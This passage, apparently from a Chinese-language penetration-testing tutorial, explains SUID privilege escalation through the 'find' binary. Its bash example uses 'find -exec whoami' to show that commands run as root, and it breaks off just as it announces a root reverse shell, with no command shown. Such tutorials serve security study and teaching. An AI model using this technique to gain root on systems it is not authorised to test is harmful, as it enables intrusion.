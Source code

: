    ![手工获取suid](./SUID/手工获取suid.png)

执行以下命令，确认以root身份运行。即 当我们使用 find pentestlab -exec <命令> \; 的形式运行命令时，使用的是root身份。

```bash
touch 创建的文件名
find 创建的文件名 -exec whoami \;
```

![执行命令](./SUID/执行命令.png)

接下来，执行以下命令，以root身份反弹shell。
